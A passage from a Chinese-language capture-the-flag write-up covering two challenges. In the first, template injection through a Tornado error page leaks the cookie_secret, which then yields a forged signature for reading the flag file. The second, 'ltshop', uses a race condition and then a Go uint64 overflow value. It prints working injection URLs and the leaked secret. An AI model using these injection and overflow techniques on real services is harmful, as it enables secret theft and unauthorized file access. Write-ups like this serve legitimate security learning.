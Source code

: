 发现意思很明确，有签名，读文件<br>
那么现在要做的就是leak cookie_secret<br>
发现

```
http://49.4.78.81:30980/error?msg=`{``{`1^0`}``}`
```

可以进行模板注入，但过滤了非常多的符号，应该只能读个变量<br>
阅读tornado源码

```
https://github.com/tornadoweb/tornado/blob/master/tornado/auth.py
```

发现`handler.settings`存放了cookie_secret<br>
读取

```
http://49.4.78.81:30980/error?msg=`{``{`handler.settings`}``}`
```

得到

```
Whoops, looks like somethings went wrong . 
`{`'login_url': '/login', 'template_path': 'templates', 'xsrf_cookies': True, 'cookie_secret': '0tG+hY[4ekR($v72OzJa)M9d!jV8sF.n1&gt;`{`Zo#*pPIm_&lt;W%L3-T~AuQlBbqr6`}`ig', 'debug': False, 'file_path': '/www/static/files', 'static_path': 'static'`}`
```

随机构造签名读flag

```
http://49.4.78.81:30980/file?filename=/fllllllllllag&amp;signature=7bae09c2c6e2f6aa34df7dbee23db960
```

得到

```
/fllllllllllag 
flag`{`67a3d3dec827645c1c92d1f2160c744f`}`
```



## ltshop

本能的条件竞争，换大辣条，50个线程，跑完发现自己有7个大辣条了，看来竞争略有成效<br>
下面是辣条之王的艺术，考虑到是go语言，uint64可能存在溢出

```
http://www.it1352.com/808569.html
```

于是思考到，这里我们的兑换量应该*5，于是简单计算了一下

[![](https://p5.ssl.qhimg.com/t0128a1ac4dce6fdfff.png)](https://p5.ssl.qhimg.com/t0128a1ac4dce6fdfff.png)

然后我们这里兑换3689348814741910324即可溢出
